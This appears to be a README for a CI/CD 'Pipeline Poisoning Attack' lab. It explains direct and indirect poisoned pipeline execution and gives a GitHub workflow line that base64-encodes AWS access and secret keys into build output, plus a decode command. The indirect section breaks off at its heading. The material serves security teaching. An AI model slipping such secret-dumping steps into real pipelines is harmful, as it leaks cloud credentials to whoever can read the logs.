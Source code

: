 # CI CD Risks - Pipeline Poisoning Attack Lab

## Prep
1. Within AWS Account, create Amazon Elastic Container Registry named `cicd-sec`
1. Add Github Repository Secrets 
    1. `AWS_ACCESS_KEY_ID`
    1. `AWS_REGION`
    1. `AWS_SECRET_ACCESS_KEY`
    1. `REPO_NAME`
    1. `ECR_REGISTRY`
1. Ensure Branch Protection is disabled within GitHub Repository


## Understanding Direct PPE

Direct PPE (D-PPE): In a D-PPE scenario, the attacker modifies the CI config file in a repository they have access to, either by pushing the change directly to an unprotected remote branch on the repo, or by submitting a PR with the change from a branch or a fork. Since the CI pipeline execution is triggered off of the “push” or ”PR” events, and the pipeline execution is defined by the commands in the modified CI configuration file, the attacker’s malicious commands ultimately run in the build node once the build pipeline is triggered.

![i-ppe](img/d-ppe.jpg)

## Execute Direct-PPE 

Add line of code to extract `AWS_ACCESS_KEY_ID` and `AWS_SECRET_ACCESS_KEY` during Pipeline execution after `make build` within `.github\workflows\dppe.yaml` 

```
echo "accesskey: ${{ env.AWS_ACCESS_KEY_ID }}  secretkey: ${{ secrets.AWS_SECRET_ACCESS_KEY }}" | base64
```

Extract Output from GitHub Workflow Output and 

```
echo "<ENCODED_SECRETS>" | base64 -d
```

example output
```
echo "YWNjZXNza2V5OiBleGFtcGxlLWFjY2VzcyBrZXkgIHNlY3JldGtleTogZXhhbXBsZS1zZWNyZXQta2V5Cg==" | base64 -d
accesskey: example-access key  secretkey: example-secret-key
```

## Understanding Indirect PPE

Indirect PPE (I-PPE): In certain cases, the possibility of D-PPE is not available to an adversary with access to an SCM repository:
- If the pipeline is configured to pull the CI configuration file from a separate, protected branch in the same repository.
- If the CI configuration file is stored in a separate repository from the source code, without the option for a user to directly edit it.
- If the CI build is defined in the CI system itself – instead of in a file stored in the source code.

In such a scenario, the attacker can still poison the pipeline by injecting malicious code into files referenced by the pipeline configuration file, for example:

- Makefile
- build.sh
- code tests etc..

Now, the scenario is - we cannot directly push into main branch, it will be protected, we have to find other ways to inject the malicious code.

![i-ppe](img/i-ppe.jpg)

## Execute Indirect-PPE 

